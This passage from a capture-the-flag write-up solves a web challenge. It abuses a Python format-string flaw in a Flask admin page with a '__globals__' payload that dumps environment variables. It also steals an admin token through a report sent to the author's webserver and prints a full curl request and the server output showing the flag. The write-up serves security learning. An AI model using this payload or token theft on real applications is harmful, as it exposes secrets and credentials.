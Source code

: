 We can then add `.environ` to get the environment variables:
`{0.__globals__[Flask].__init__.__globals__[os].environ}`

```
 environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '1d7438abd92d', 'FLAG': 'PWNME{FAKE_FLAG}', 'LANG': 'C.UTF-8', 'GPG_KEY': 'E3FF2839C048B25C084DEBE9B26995E310250568', 'PYTHON_VERSION': '3.9.4', 'PYTHON_PIP_VERSION': '21.1.1', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py', 'PYTHON_GET_PIP_SHA256': 'f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993', 'DEBIAN_FRONTEND': 'noninteractive', 'HOME': '/root', 'WERKZEUG_SERVER_FD': '3'})None
```

We get the sample flag!

Let's do the steps on remote:

1. Trigger the report to our webserver to steal the `X_Admin_Token`

We get the token `X-Admin-Token=17c738b0787c99a392debb90bf9b57be`

2. Use that token to get the flag from the Python format string vulnerability

```bash
$ curl -X GET "https://saymyname-c588791ba9cff43a.deploy.phreaks.fr/admin?prompt=%7B0.__globals__%5BFlask%5D.__init__.__globals__%5Bos%5D.environ%7D" --cookie "X-Admin-Token=17c738b0787c99a392debb90bf9b57be"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin</title>
</head>
<body>
    environ({&#39;PATH&#39;: &#39;/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#39;, &#39;HOSTNAME&#39;: &#39;ctf-saymyname-c588791ba9cff43a-785bb6f958-qds96&#39;, &#39;LANG&#39;: &#39;C.UTF-8&#39;, &#39;GPG_KEY&#39;: &#39;E3FF2839C048B25C084DEBE9B26995E310250568&#39;, &#39;PYTHON_VERSION&#39;: &#39;3.9.4&#39;, &#39;PYTHON_PIP_VERSION&#39;: &#39;21.1.1&#39;, &#39;PYTHON_GET_PIP_URL&#39;: &#39;https://github.com/pypa/get-pip/raw/1954f15b3f102ace496a34a013ea76b061535bd2/public/get-pip.py&#39;, &#39;PYTHON_GET_PIP_SHA256&#39;: &#39;f499d76e0149a673fb8246d88e116db589afbd291739bd84f2cd9a7bca7b6993&#39;, &#39;DEBIAN_FRONTEND&#39;: &#39;noninteractive&#39;, &#39;FLAG&#39;: &#39;PWNME{b492b312612c741b3b6597f925f88198}&#39;, &#39;KUBERNETES_SERVICE_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_SERVICE_PORT_HTTPS&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP&#39;: &#39;tcp://34.118.224.1:443&#39;, &#39;KUBERNETES_PORT_443_TCP_PROTO&#39;: &#39;tcp&#39;, &#39;KUBERNETES_PORT_443_TCP_PORT&#39;: &#39;443&#39;, &#39;KUBERNETES_PORT_443_TCP_ADDR&#39;: &#39;34.118.224.1&#39;, &#39;KUBERNETES_SERVICE_HOST&#39;: &#39;34.118.224.1&#39;, &#39;HOME&#39;: &#39;/root&#39;, &#39;WERKZEUG_SERVER_FD&#39;: &#39;3&#39;})None
</body>
</html>
```

3. Profit

Flag: `PWNME{b492b312612c741b3b6597f925f88198}`
